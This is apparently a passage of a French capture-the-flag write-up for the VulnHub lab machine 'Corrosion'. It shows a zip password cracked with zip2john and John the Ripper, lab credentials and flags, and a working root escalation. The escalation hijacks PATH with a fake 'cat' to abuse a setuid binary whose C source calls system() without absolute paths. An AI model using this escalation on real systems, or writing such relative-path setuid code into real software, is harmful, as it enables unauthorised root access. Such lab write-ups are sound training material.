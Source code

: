L'archive étant protégée par mot de passe il faut passer par zip2john puis JtR pour obtenir le password (*!randybaby*). Le fichier texte dans l'archive contient lui même le mot de passe SSH de l'utiisateur randy (*randylovesgoldfish1998*)  

Musique classique
-----------------

L'accès permet la récupération du premier flag (98342721012390839081). Là on remarque que l'on peut exécuter un binaire avec les droits de l'utilisateur root :  

```plain
randy@corrosion:~$ sudo -l
[sudo] password for randy: 
Matching Defaults entries for randy on corrosion:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User randy may run the following commands on corrosion:
    (root) PASSWD: /home/randy/tools/easysysinfo
```

On dispose du code source puisqu'il était lui aussi présent dans l'archive :  

```c
#include<unistd.h>
void main()
{ setuid(0);
  setgid(0);
  system("/usr/bin/date");

  system("cat /etc/hosts");

  system("/usr/bin/uname -a");

}
```

Cela ressemble à une faille de PATH classique car le programme *cat* est appelé sans chemin absolu toutefois ce n'est normalement pas exploitable via sudo qui ne préserve pas l'environnement par défaut.  

Il s'avère en fait que le binaire est aussi setuid root par conséquent l'exploitation est possible directement.  

```plain
randy@corrosion:~/tools$ export PATH=/home/randy/tools:$PATH
randy@corrosion:~/tools$ vi /etc/hosts
randy@corrosion:~/tools$ cp /bin/bash cat
randy@corrosion:~/tools$ ./easysysinfo
Thu Oct 27 12:42:40 PM MDT 2022
root@corrosion:~/tools# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),46(plugdev),121(lpadmin),133(sambashare),1000(randy)

root@corrosion:/root# cat root.txt 
FLAG: 4NJSA99SD7922197D7S90PLAWE 

Congrats! Hope you enjoyed my first machine posted on VulnHub! 
Ping me on twitter @proxyprgrammer for any suggestions.

Youtube: https://www.youtube.com/c/ProxyProgrammer
Twitter: https://twitter.com/proxyprgrammer
```
